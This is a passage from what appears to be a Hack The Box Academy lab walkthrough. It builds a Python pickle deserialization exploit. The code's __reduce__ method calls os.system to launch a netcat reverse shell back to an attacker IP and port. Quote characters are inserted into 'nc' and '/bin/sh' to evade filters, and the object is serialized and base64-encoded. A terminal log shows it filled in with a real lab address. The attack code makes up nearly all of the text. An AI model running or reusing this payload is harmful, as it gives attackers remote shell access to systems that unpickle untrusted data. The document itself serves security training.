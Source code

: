 Code: python

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return os.system, ("n''c -nv PWNIP PWNPO -e /bin/s''h",)

r = RCE()
p = pickle.dumps(r)
b = base64.b64encode(p)
print(b.decode())
```

Students can use `cat` to insert the Python code into `exploit.py`:

Code: shell

```shell
cat << 'EOF' > exploit.py
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return os.system, ("n''c -nv PWNIP PWNPO -e /bin/s''h",)

r = RCE()
p = pickle.dumps(r)
b = base64.b64encode(p)
print(b.decode())
EOF
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-avlyau8omi]─[~/htbooks-src]
└──╼ [★]$ cat << 'EOF' > exploit.py
> import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return os.system, ("n''c -nv 10.10.14.107 9001 -e /bin/s''h",)

r = RCE()
p = pickle.dumps(r)
b = base64.b64encode(p)
print(b.decode())
> EOF
```
